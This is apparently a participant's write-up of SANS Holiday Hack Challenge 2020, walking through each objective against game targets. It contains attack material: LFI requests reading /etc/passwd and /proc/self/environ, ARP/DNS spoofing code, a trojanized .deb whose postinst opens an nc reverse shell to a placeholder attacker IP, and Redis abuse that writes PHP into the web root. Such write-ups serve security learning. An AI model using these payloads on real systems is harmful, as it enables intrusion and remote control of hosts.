






# Holiday Hack Challenge 2020: Three French Hens

GitHub Repository Location: **https://github.com/jeshuaerickson/holidayhack2020**

# Objective 1: Uncover Santa's Gift List

There is a photo of Santa's Desk on that billboard with his personal gift list. What gift is Santa planning on getting Josh Wright for the holidays? Talk to Jingle Ringford at the bottom of the mountain for advice.

**Answer:** "poxmark"

- First stop in the Holiday Hack challenge! I talked to Jingle Ringleford and downloaded the billboard image.
- I used the tool suggested in the hint. Took several attempts at twirling and untwirling before I could see what was on the list for him.
- Once I saw what was on the list, I read it as "poxmark", but had no idea if this was a thing, so I googled it. YUP! A very interesting thing at that. :)

Lesson Learned |
-------------- |
Photo obfuscation can actually be 'undone' in some cases.|

# Objective 2: Investigate S3 Bucket

When you unwrap the over-wrapped file, what text string is inside the package? Talk to Shinny Upatree in front of the castle for hints on this challenge.

**Answer:** "North Pole: The Frostiest Place on Earth"

- Added wrapper3000 to the wordlist
- Found this bucket (wrapper3000) and the file "package"
- Now attempting to decompress the file
- <a href="http://s3.amazonaws.com/wrapper3000/package">http://s3.amazonaws.com/wrapper3000/package</a>
- Step 1: "cat package" (and see that it was base64 encoded)
- Step 2: "base64 -d package > package.zip"
- Step 3: "unzip package.zip"
- Step 4: "tar -xvf package.txt.Z.xz.xxd.tar.bz2"
- Step 5: "xxd -r *.xxd > package.txt.Z.xz"
- Step 6: "xz -d package.txt.Z.xz"
- Step 7: "uncompress package.txt.Z"
- Step 8: "cat package.txt"

Lessons Learned |
--------------- |
There may be more public buckets lurking than you realize. And, holy cow, there are lots of ways to compress files!|

# Objective 3: Point-of-Sale Password Recovery

Help Sugarplum Mary in the Courtyard find the supervisor password for the point-of-sale terminal. What's the password?

**Answer:** "santapass"

- Step 1: Download the santa-shop.exe file.
- Step 2: Extract with "engrampa"
- Step 3: Looking at the .asar file located here: app-64/resources
- Step 4: Remember to read hints and look at hint suggesting npm "asar" tool.
- Step 5: Reading throught this article on how to use it. Interesting!
	- Follow directions and unpack source code for santa-shop.exe
	- <a href="https://medium.com/how-to-electron/how-to-get-source-code-of-any-electron-application-cbb5c7726c37">asar article on Medium</a>
- Step 6: Review unpacked source code and then "cat README.md"
	- "cat README.md" ---> "Remember, if you need to change Santa's passwords, it's at the top of main.js!"

~~~
main.js
// Modules to control application life and create native browser window
const { app, BrowserWindow, ipcMain } = require('electron');
const path = require('path');

const SANTA_PASSWORD = 'santapass';
~~~

Lessons Learned |
--------------- |
You might think that a password or source code for an application is not available to you, but sometimes it is. You can actually extract files from executables and find interesting artifacts in the process.|

# Objective 4: Operate the Santavator

Talk to Pepper Minstix in the entryway to get some hints about the Santavator.

Got some help from my kid on this one. :) 

Lessons Learned |
--------------- |
Problems involving angles and refraction can often be solved many different ways. If you have kids, consult with them on problems like these. If you want them solved quickly, that is.|

# Objective 5: Open HID Lock

Open the HID lock in the Workshop. Talk to Bushy Evergreen near the talk tracks for hints on this challenge. You may also visit Fitzy Shortstack in the kitchen for tips.

- Step 1: Steal Shinny Upatree's ID, using "search lf" when standing next to him.
- Step 2: Simulate the ID when you get to Santa's secret door in the workshop.
        - "lf hid sim -r 2006e22f13" 
	- Needed to wait seconds. I was being boneheaded and trying the door before the 10 seconds was up.
- Step 3: Go through Santa's secret office and become Santa. Amazing! My badge is now the "KringleCon Black Badge"

Lessons Learned |
--------------- |
When something doesn't work right the first time, think about what information you might be missing. Also help files are very help-ful. Don't overlook them. Lastly, it really isn't all that hard to simulate badge authentication! |

# Objective 6: Splunk Challenge

Access the Splunk terminal in the Great Room. What is the name of the adversary group that Santa feared would attack KringleCon?

**Answer:** "The Lollipop Guild"

rake sure you are "Santa" when you attempt this objective.

## Question 1

How many distinct MITRE ATT&CK techniques did Alice emulate?

- Step 1: Visit the "Alice Bluebird" chat. Notice this search string:
	" | tstats count where index=* by index "
- Step 2: Use this search string in the "Search" page.
- Step 3: Then simply set the search to "index=attack" (switch to verbose mode)
- Step 4: Find the count for the field called "Test Number"
- Answer: 13

This was the recommended search
~~~
| tstats count where index=* by index 
| search index=T*-win OR T*-main
| rex field=index "(?<technique>t\d+)[\.\-].0*" 
| stats dc(technique)
~~~

## Question 2

What are the names of the two indexes that contain the results of emulating Enterprise ATT&CK technique 1059.003? (Put them in alphabetical order and separate them with a space)

- Step 1: Read response from "Alice Bluebird"
- Step 2: Use this search again: 
~~~
| tstats count where index=* by index
~~~
- Step 3: Notice the two indexes that start with 1059.003
- Answers: 
	- t1059.003-main
	- t1059.003-win

## Question 3

One technique that Santa had us simulate deals with 'system information discovery'. What is the full name of the registry key that is queried to determine the MachineGuid?    
- Step 1: Notice that this is t1082
- Step 2: Try this is the search "index=t1082-win"
- Step 3: Go here: https://github.com/redcanaryco/atomic-red-team/search?p=2&q=system+information
- Step 4: Find the answer on this page: https://github.com/redcanaryco/atomic-red-team/blob/8eb52117b748d378325f7719554a896e37bccec7/atomics/T1082/T1082.md
- Answer: "HKEY.LOCAL.MACHINE.SOFTWARE.Microsoft.Cryptography"

## Question 4

According to events recorded by the Splunk Attack Range, when was the first OSTAP related atomic test executed? (Please provide the alphanumeric UTC timestamp.)

- Step 1: Search "index=attack"
- Step 2: Sort "execution time" desc.
- Step 3: Find first instance of OSTAP
- Answer: "2020-11-30T17:44:15Z" (OSTAP Worming Activity)

## Question 5

One Atomic Red Team test executed by the Attack Range makes use of an open source package authored by frgnca on GitHub. According to Sysmon (Event Code 1) events in Splunk, what was the ProcessId associated with the first use of this component?

- Step 1: Look up the events in the "index=attack" list. 
- Step 2: Notice the test called "using device audio capture commandlet"
- Step 3: Notice the local execution time (2020-11-30T19:25:14) 
- Step 4: Go back and search with "index=* EventID=1"
- Step 5: *Find the time in the range in the Timeline.
- Step 6: Find the event that matches. 
	- (powershell command with the commandlet in it) (row 30)
- Answer: 3648 (ProcessId)

## Question 6

Alice ran a simulation of an attacker abusing Windows registry run keys. This technique leveraged a multi-line batch file that was also used by a few other techniques. What is the final command of this multi-line batch file used as part of this simulation?

- Step 1: Use this filter 'index=* file_name="*.bat"'
- Step 2: Make note of all the bat files.
- Step 3: Review a sample of them in the Atomic Red Team repo.
- Step 4: Find one that is multiline effecting registry values.
- Step 5: Discover that this is discovery.bat
- Answer: "quser"

## Question 7

According to x509 certificate events captured by Zeek (formerly Bro), what is the serial number of the TLS certificate assigned to the Windows domain controller in the attack range?

- Step 1: Use this filter 'index=* sourcetype=bro*"
- Step 2: See values for certificate.serial
- Step 3: Pick the most heavily used serial since this is a domain controller.
- Answer: 55FCEEBB21270D9249E86F4B9DC7AA60

## Challenge Question

- Step 1: Google "RFC 7465" to see what Alice talking about.
- Step 2: Looks like RC4 encryption.
- Step 3: Go to CyberChef and see what I need. A Passphrase.
- Step 4: Alice says I need to watch Splunk talk.
	- Passphrase is "Stay Frosty"

Lessons Learned |
--------------- |
Atomic Red Team tests provide amazing ways to simulate attacks from the Mitre Attack Framework! This is a really good way to test security tools/controls! |

# Objective 7: Solve the Sleight's CAN-D-BUS Problem

Jack Frost is somehow inserting malicious messages onto the sleigh's CAN-D bus. We need you to exclude the malicious messages and no others to fix the sleigh. Visit the NetWars room on the roof and talk to Wunorse Openslae for hints.

- Step 1: Filter out all the zero values currently running.
	- Example 244#000000000000 	

- Step 2: Notice what some of the controls do once all the zeros are filtered.
~~~
	START     -> 02A#00FF00
	STOP      -> 02A#0000FF
	LOCK      -> 19B#000000000000
	UNLOCK    -> 19B#00000F000000
	STEERINGR -> 019#00000001
	STEERINGL -> 019#FFFFFFFF
	BRAKE     -> 080#000001
	ACCEL	  -> 244#

	JUNK? --> 080#FFFFFA
	JUNK? --> 19B#0000000F2057
~~~
- Step 3: Notice the some junky values that don't make sense.
	- Why are there negative values for brakes??
	- Why is there a lock/unlock value that presents a third state??
- Step 4: Use these filters

It works!

Lessons Learned |
--------------- |
Some actions or actuations (like driving a car or sled) might not seem like they are digital in nature, but they are! Also, when looking for troublemakers, it is important to reduce noise as much as possible.|

# Objective 8: Broken Tag Generator

Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.

**Answer:** "JackFrostWasHere"

- Step 1: This is interesting in the /js/app.js file.
	- Looks like **"/image?id="** might be succeptible to LFI.

~~~
        success: function (data) {
          $('.uploadForm')[0].reset();
          $('[for=file-1] span').text('Select file(s)');
            setTimeout(() => {
              data.forEach(id => {
                var img = $('');
                img.attr('src', `/image?id=${id}`);
                img.on('load', () => {
                  const imgElement = img[0];
                  var imgInstance = new fabric.Image(imgElement, {
                    left: (canvas.width - imgElement.width) / 2,
                    top: (canvas.height - imgElement.height) / 2,
                    angle: 0,
                    opacity: 1
~~~ 

- Step 2: Didn't think I was getting anything with this, but I just needed to view the reponse in Burp.	

~~~
https://tag-generator.kringlecastle.com/image?id=../etc/passwd

Response:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
app:x:1000:1000:,,,:/home/app:/bin/bash

~~~
 
- Step 3: Do websearch for how to get environment variables through LFI. Then try this request...in Burp:

~~~
GET /image?id=../proc/self/environ HTTP/1.1
Host: tag-generator.kringlecastle.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
~~~

Here's the result!

Lessons Learned |
--------------- |
Some responses that don't show up in your browser do show up Burp. Also, don't underestimate what files may be available to you through LFI.|

# Objective 9: ARP Shenanigans

Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. Retrieve the document at /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Who recused herself from the vote described on the document?

**Answer:** "Tanta Kringle"

- Step 1: Run "tshark -i eth0"
- Step 2: Notice that .35 is asking about .53
- Step 3: Create ARP response: 

~~~
        ether_resp = Ether(dst=packet.hwsrc, type=0x806, src=macaddr)

        arp_response = ARP(pdst=packet.psrc)
        arp_response.op = 2 #change this to be a response
        arp_response.plen = packet.plen
        arp_response.hwlen = packet.hwlen
        arp_response.ptype = packet.ptype
        arp_response.hwtype = packet.hwtype

        arp_response.hwsrc = macaddr #provide my mac address
        arp_response.psrc = "10.6.6.53" #provide IP sought by 10.6.6.35
        arp_response.hwdst = packet.hwsrc
	arp_responst.pdst = packet.psrc

        response = ether_resp/arp_response

        sendp(response, iface="eth0")
~~~

- Step 4: Create DNS response:

~~~

    eth = Ether(src=packet.dst, dst=packet.src)      # need to replace mac addresses
    ip  = IP(dst=packet[IP].src, src=packet[IP].dst) # need to replace IP addresses
    udp = UDP(dport=packet[UDP].sport, sport=53)     # need to replace ports
    dns = DNS(  
       id=packet[DNS].id,
       qd=packet[DNS].qd,
       qr=1,
       aa=1,
       an=DNSRR(rrname=packet[DNS].qd.qname, ttl=10, rdata=ipaddr)
    )
~~~

- Step 5: Note file being requested with http request.

~~~
"GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1"
~~~

- Step 6: Where ever you start your web server, make sure it is set up with the path below. This is where you will put your trojanized binary called "suriv_amd64.deb".

~~~
pub/jfrost/backdoor/
~~~

- Step 7: Determine payload to use. Simple nc reverse shell should work.

~~~
nc -e /bin/sh ATTACKING-IP 4444
~~~

- Step 8: Build the deb package with the above payload in the "postinst"
	- "dpkg -x [debfile] work"
	- "mkdir work/DEBIAN"
 	- "cd DEBIAN"

- "vim control" (control file for the package)

~~~
Package: [Package Name]
Version: [Package Version]
Section: Network Tools
Priority: optional
Architecture: amd64
Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
Description: Network utility for hacking all the things.
~~~

- "vim postinst" (postinst file for the package)

~~~
#!/bin/sh

nc -e /bin/sh [attacking ip] 4444
~~~

	- "chmod 755 postinst"
	- "dpkg-deb --build /home/guest/debs/work"
	- "mv work.deb [package name].deb"
	- "python3 -m http.server 80"

- Step 9: Start listener with "nc -nvlp 4444" 
- Step 10: Get ARP and DNS responses going. Start DNS running first so it is ready as soon as infected machine gets ARP reply that causes it to go to the spoofed DNS server.
- Step 11: Navigate to file contents in question:
	- "cat *.txt | grep recused" (Looking for the individual who recused themselves from the vote.)

Lessons Learned |
-------------- |
Learned critical concepts and practical application when it comes to ARP and DNS spoofing. Learned setup for a Linux binary trojan. I had done none of these things before Holiday Hack 2020. Getting that binary to do a callback and give me a shell was aweXome! | 

# Objective 10: Defeat Fingerprint Sensor

Bypass the Santavator fingerprint sensor. Enter Santa's office without Santa's fingerprint.

This required going into developer mode in Google Chrome. I saw one spot where the 'besanta' token was a condition required for being able to go to floor three and deleted it. After doing this, you can save "app.js" and reload the elevator code in your browser. 

Lessons Learned | 
--------------- |
It never hurts to take a close look at source code to see what sort of basic logic may be alterable in order to improve the functionality of an elevator or website. :) |

# Objective 11a: Naughty/Nice List with Blockchain Investigation Part 1 

Even though the chunk of the blockchain that you have ends with block 129996, can you predict the nonce for block 130000? Talk to Tangle Coalbox in the Speaker UNpreparedness Room for tips on prediction and Tinsel Upatree for more tips and tools. (Enter just the 16-character hex value of the nonce)

**Answer:** 57066318f32f729d

- Step 1: Get 312 64bit values. (See blockchain.py script below.)
- Step 2: Split them in half, making sure to think about Endianness. (See blockchain.py script below.)
- Step 3: Feed them into the predictor and then put back together, making sure to think about Endianness, whether bits go from big to small or small to big. (See blockchain-get-32.sh script below.)

**blockchain.py**

~~~
##############################################################
##--we only need 312 nonces because these are 64bit nonces--##
##############################################################

for var in list(range(312)):
    #start on block 1236
    var = var + 1236
    #print(c2.blocks[var].block_data)
    #print(c2.blocks[var].nonce)
    currentNonce = c2.blocks[var].nonce
    hexNonce = (str('%016.016x' % (currentNonce)).encode('utf-8'))
   

    #this is actually first (though it is the second half of the nonce)
    hexNonce_32a = (currentNonce  >> 32 ) & 0xffffffff

    #this is second (though it is the first half of the nonce)
    hexNonce_32b = currentNonce & 0xffffffff

    #this is how we feed the 32 nonce parts into the predictor
    print(hexNonce_32b)
    print(hexNonce_32a)

    # but when we put them back together for 64bit, we need to flip them back with 32a first.
    #32a prediction value was '0x57066318'
    #32b prediction value was '0xf32f729d'

~~~

Here's the final script that retrieves he predicted values:

**blockchain-get-32.sh**

~~~

 #blockchain.py is the script shown above

 #gets the last 624 of the split up values
 ./blockchain.py | tail -n 624 > blockchain32.out

 #checks he file to make sure there is 624
 wc blockchain32.out

 #feeds the split 32 values into the predictor
 #then gets the last nonce pair of the four total that came back to get us to 130000
 cat blockchain32.out | mt19937predict | head -8 | tail -n 2

 #feed the resulting pair in reverse order back to the objective.

 echo "All Done!"

~~~

Lessons Learned |
--------------- |
When it comes to computers, everything is deterministic, including random numbers! Be very careful what assumptions you're making when you're using random numbers to make an application or component more secure! Also, you can split a 64bit number in half to make a 32bit number!! Additionaly, a deeper understanding of 32bit vs. 64bit helped me explain bits and registers to my 11-year-old. Finally, I had NO concept of Endianness until Holiday Hack 2020. But now I do! |

# Objective 11b: Naughty/Nice List with Blockchain Investigation Part 2

The SHA256 of Jack's altered block is: 58a3b9335a6ceb0234c12d35a0564c4e f0e90152d0eb2ce2082383b38028a90f. If you're clever, you can recreate the original version of that block by changing the values of only 4 bytes. Once you've recreated the original block, what is the SHA256 of that block?

Answer: **fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb**

- Step 1: Create a script to show MD5 and SHA256 hashes on changes to the blockchain.dat file.

~~~

files = ['blockchain.dat','bc1.dat']
for file in files:

    c2 = Chain(load=True, filename=file)
    
    #jack's block sequence is 1010
    blocksequence = 1010

    #this dumps the resulting PDF
    c2.blocks[blocksequence].dump_doc(2)
    
    # this is for studying a single block
    c2.save_a_block(blocksequence,filename=None)    
    
    block_data = c2.blocks[blocksequence].block_data
    index = c2.blocks[blocksequence].index
    nonce = c2.blocks[blocksequence].nonce
    sign = c2.blocks[blocksequence].sign
    score = c2.blocks[blocksequence].score
    previous_hash =  c2.blocks[blocksequence].previous_hash
    current_hash  = c2.blocks[blocksequence].hash
    
    #This is for tracking my comparison hashes
    full_hash = c2.blocks[blocksequence].full_hash()
    full_hash_sha256 = c2.blocks[blocksequence].full_hash_sha256()

~~~

- Step 2: Identify bytes changed by Jack Frost:
	- He changed his naughty/nice from 0 to 1, so we changed it back to 0.
	- He changed the visible document to '2' so we changed it back to '3' (Fancy how PDF's can have hidden pages!)

- Step 3: Determine which bytes we could change and still not alter the MD5 hash. This required doing a fair amount of
  reading and getting nudges from folks on Discord! These bytes had to correspond with JF's desired changes. And they
needed to increment accordingly. If we bumped him from 1 to 0 we had to make a change of this increment to a collision
byte. See screenshot below. Ignore "Santa" bytes. I searched for "Santa" to get to the right location in the
block.

**How to change bytes:** (Unicoll Attack)

**Bytes changed:**

Byte | Diff | Result |
---- | ---- | ------ |
30   | -1   | Turn Jack back to "Naughty" |
D7   | +1   | Keep MD5 hash intact |
33   | +1   | Show JF's naughty Wombat abuse |
1B   | -1   | Keep MD5 hash intact |

- Step 4: Compare original to edited bc1.dat to original blockchain.dat.

~~~

blockchain.dat ##################################################
Document dumped as: 129459.pdf
 
 
index:            129459
nonce:            12197012604862268660
sign:             1
score:            4294967295
previous hash:    4a91947439046c2dbaa96db38e924665
hash:             347979fece8d403e06f89f8633b5231a
full hash:        b10b4a6bd373b61f32f4fd3a0cdfbf84 <--- MD5 before changes
full hash sha256: 58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f <--- SHA256 before changes
 

bc1.dat ##################################################
Document dumped as: 129459.pdf
 
 
index:            129459
nonce:            12197012604862268660
sign:             0
score:            4294967295
previous hash:    4a91947439046c2dbaa96db38e924665
hash:             347979fece8d403e06f89f8633b5231a
full hash:        b10b4a6bd373b61f32f4fd3a0cdfbf84 <--- MD5 after changes
full hash sha256: fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb <--- SHA256 after changes and answer to objective!

~~~

Lessons Learned |
--------------- |
It is important to seek help with solving a problem once you've hit a wall. Secondarily, MD5 collisions are a thing and they can actually happen, and you can make them happen! Jack should have just been nice instead of trying to hack the naughty/nice blockchain. With PDF documents, there is definitely more than what meets the eye. Lastly, make sure you're a hundred percent confident you can recreate current state before you move on to make changes and create a new state that shows some differences and not others. For example, an non-changing MD5 hash and a changing SHA256 hash. |

# Narrative

~~~
KringleCon back at the castle, set the stage...
But it's under construction like my GeoCities page.

Feel I need a passport exploring on this platform -
Got half floors with back doors provided that you hack more!

Heading toward the light, unexpected what you see next:
An alternate reality, the vision that it reflects.

Mental buffer's overflowing like a fast food drive-thru trash can.
Who and why did someone else impersonate the big man?

You're grepping through your brain for the portrait's "JFS"
"Jack Frost: Santa," he's the villain who had triggered all this mess!

Then it hits you like a chimney when you hear what he ain't saying:
Pushing hard through land disputes, tryin' to stop all Santa's sleighing.

All the rotting, plotting, low conniving streaming from that skull.
Holiday Hackers, they're no slackers, returned Jack a big, old null!
~~~

# Challenges
	
## Snowball Fight (Tangle Coalbox)

- Step 1: Watch Tom Liston's talk.
- Step 2: Clone Liston's  mt19937 GitHub repository. Review/run the code.
- Step 3: Clone this repo: git@github.com:kmyk/mersenne-twister-predictor.git
- Step 4: Open Chrome and go into developer mode.
- Step 5: Notice the list of 624 seeds with a note at the bottom about the next seed being 'perfect'
- Step 6: Put this list of seeds into a file and run mersenne-twister-predictor on it.
- Step 7: Take the first seed value generated/predicted and put it in 'easy mode'
	- At the same time start up the 'Impossible' level in the Holiday Hack terminal.
- Step 8: Transfer only 'hits' from easy mode over to impossible mode in terminal. Since they have the same seed then
  the 'hit's will be the same. This will allow you to make sure every shot in the impossible mode is successful.

## Scapy Prepper (Alabaster Snowball)

### COMPLETED TASK #1:

Answer: task.submit('start')

### COMPLETED TASK #2:

Answer: task.submit(send)

### COMPLETED TASK #3:

Answer: task.submit(sniff)

### COMPLETED TASK #4:

1. pkt = sr1(IP(dst="127.0.0.1")/TCP(dport=20))
2. pkt = sniff(IP(dst="127.0.0.1")/TCP(dport=20))
3. pkt = sendp(IP(dst="127.0.0.1")/TCP(dport=20))

Answer: task.submit('1')

### COMPLETED TASK #5:

Answer: task.submit(rdpcap)

### COMPLETED TASK #6:
1. UDP_PACKETS.print()
2. UDP_PACKETS.show()
3. UDP_PACKETS.list()

Answer: task.submit('2')

### COMPLETED TASK #7:

Answer: task.submit(UDP_PACKETS[0])

### COMPLETED TASK #8:

Answer: 

- pkt=TCP_PACKETS[1]
- task.submit(pkt[TCP])

### COMPLETED TASK #9:

Answer:

- pkt=UDP_PACKETS[0]
- pkt[IP].src='127.0.0.1'
- task.submit(pkt)

### COMPLETED TASK #10:

Answer: 

- TCP_PACKETS[6][Raw].load
- task.submit('echo.r.n') (had to change backslashes to periods -- my PDF renderer didn't like 'em) 

### COMPLETED TASK #11:

Answer:

- task.submit(ICMP_PACKETS[1][ICMP].chksum)

### COMPLETED TASK #12:
1. pkt = Ether(src='127.0.0.1')/ICMP(type="echo-request")
2. pkt = IP(src='127.0.0.1')/ICMP(type="echo-reply")
3. pkt = IP(dst='127.0.0.1')/ICMP(type="echo-request")

Answer: task.submit('3')

### COMPLETED TASK #13:

Answer:

- pkt = IP(dst="127.127.127.127")/UDP(dport=5000)
- task.submit(pkt)

### COMPLETED TASK #14:

Answer:

- pkt = IP(dst="127.2.3.4")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="elveslove.santa"))
- task.submit(pkt)

### COMPLETED TASK #15:

Answer:

- pkt = ARP_PACKETS[1][ARP]
- pkt.op=2
- pkt.hwsrc='00:13:46:0b:22:ba'
- pkt.hwdst='00:16:ce:6e:8b:24'
- task.submit(ARP_PACKETS)

## Kringle Kiosk (Shinny Upatree)

- Determined through errors that the application was "cowsay".
- Used command injection with "&&" to add another command to the end which was "bin/bash"

## Unescape Tmux (Pepper Minstix)

- Used "tmux a" to attach the available tmux session

## Linux Primer (Sugarplum Mary)

~~~
Entered "yes" to begin
"ls"
"cat munchkin*"
"rm mun*"
"pwd"
"ls -al"
"history | grep mun"
"env"
"cd workshop"
"chmod +x ./lollipop_engine"
"mv /home/elf/workshop/electrical/blown_fuse0 /home/elf/workshop/electrical/fuse0"
"ln -s fuse0 fuse1"
"cp fuse1 fuse2"
"echo "MUNCHKIN_REPELLENT" >> fuse2"
"git status"
"find /opt/munchkin_den -user munchkin"
"find /opt/munchkin_den -size +108k -size -110k"
"ps aux"
"netstat --listen"
"curl localhost:54321"
"pkill 14516_munchkin"
~~~

## Redis Bug Hunt (Holly Evergreen)

- Step 1: "curl http://localhost/maintenance.php"
- Step 2: Notice this error output

~~~
	ERROR: 'cmd' argument required (use commas to separate commands); eg:
	curl http://localhost/maintenance.php?cmd=help
	curl http://localhost/maintenance.php?cmd=mget,example1
~~~

- Step 3: "curl http://localhost/maintenance.php?cmd=config,get,*"
- Step 4: Notice this in the output:

~~~
dbfilename
dump.rdb
requirepass
R3disp@ss
masterauth
~~~

- Step 5: "redis-cli"
- Step 6: AUTH R3disp@ss
- Step 7: Get php to show the contents of index.php by inserting into a key value.

~~~
127.0.0.1:6379> auth R3disp@ss
OK
127.0.0.1:6379> get test
"foo"
127.0.0.1:6379> config set dir /var/www/html
OK
127.0.0.1:6379> get dir
"/var/www/html"
127.0.0.1:6379> get dbfilename
(nil)
127.0.0.1:6379> set test "<?php $homepage = file_get_contents('index.php'); echo $homepage; ?>
Invalid argument(s)
127.0.0.1:6379> set test "<?php $homepage = file_get_contents('index.php'); echo $homepage; ?>"
OK
127.0.0.1:6379> get test
"<?php $homepage = file_get_contents('index.php'); echo $homepage; ?>"
127.0.0.1:6379> save
OK
127.0.0.1:6379> exit
player@b71845abd4ae:~$ curl http://localhost/maintenance.php --output file
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   700  100   700    0     0   341k      0 --:--:-- --:--:-- --:--:--  341k
player@b71845abd4ae:~$ ls                  
file  maintenance.php
player@b71845abd4ae:~$ cat file

# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 

~~~

## Speaker UNPrep (Bushy Evergreen)

### Part 1: Open the Door

- Step 1: Ran "strings door"
- Step 2: Observed this output:
~~~
	 (bytes Overflowextern "
	NulErrorBox<Any>thread 'expected, found Door opened!
	That would have opened the door!
	Be sure to finish the challenge in prod: And don't forget, the password is "Op3nTheD00r"
	Beep boop invalid password
~~~
- Step 3: entered the password after being prompted when running the "door" binary

### Part 2: Turn on the Lights

- Step 1: "cd lab"
- Step 2: view "lights.conf" (this is where the username and password is)
- Step 3: run "./lights" and notice that 'select fields are decrypted'
	- Make note of hint from Bushy, which asks 'what if we use an encrypted username'
- Step 4: Replace username with encrypted password.
- Step 5: Run application again. Get the following result:
~~~
elf@59a34b8b05b2 ~/lab $ ./lights
The speaker unpreparedness room sure is dark, you're thinking (assuming
you've opened the door; otherwise, you wonder how dark it actually is)

You wonder how to turn the lights on? If only you had some kind of hin---

 >>> CONFIGURATION FILE LOADED, SELECT FIELDS DECRYPTED: /home/elf/lab/lights.conf

---t to help figure out the password... I guess you'll just have to make do!

The terminal just blinks: Welcome back, Computer-TurnLightsOn

What do you enter? > Computer-TurnLightsOn
Checking......
That would have turned on the lights!

